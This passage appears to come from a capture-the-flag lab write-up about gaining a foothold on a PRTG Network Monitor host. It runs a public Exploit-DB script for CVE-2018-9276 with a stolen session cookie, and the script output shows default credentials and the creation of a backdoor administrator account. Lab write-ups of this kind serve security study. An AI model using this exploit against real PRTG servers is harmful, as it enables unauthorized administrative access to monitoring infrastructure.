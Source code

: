 ![COOKIE](IMG/prtg_cookie.png)

Try to run exploit:
```shell

```
```

# FootHold

First try with prtg-exploit.sh script:
```shell
└──╼ $cp /usr/share/exploitdb/exploits/windows/webapps/46527.sh ./prtg-exploit.sh

└──╼ $./prtg-exploit.sh http://10.129.43.52 -c "OCTOPUS1813713946=ezFGQkM1NkY1LTk4NUQtNDFGQy1BMkFGLTc4NzRENjg2NzcwRn0%3D"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
```
